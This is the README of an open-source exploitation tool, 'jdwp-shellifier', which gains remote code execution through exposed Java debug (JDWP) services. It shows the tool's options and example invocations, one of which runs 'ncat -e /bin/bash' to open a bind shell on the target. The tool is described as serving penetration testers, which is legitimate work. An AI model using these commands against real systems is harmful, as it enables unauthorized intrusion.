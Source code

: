 # JDWP exploitation script


## [中文介绍 & JDWP 命令翻译](https://github.com/ericzyh/jdwp-shellifier/blob/master/README.cn.md)

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





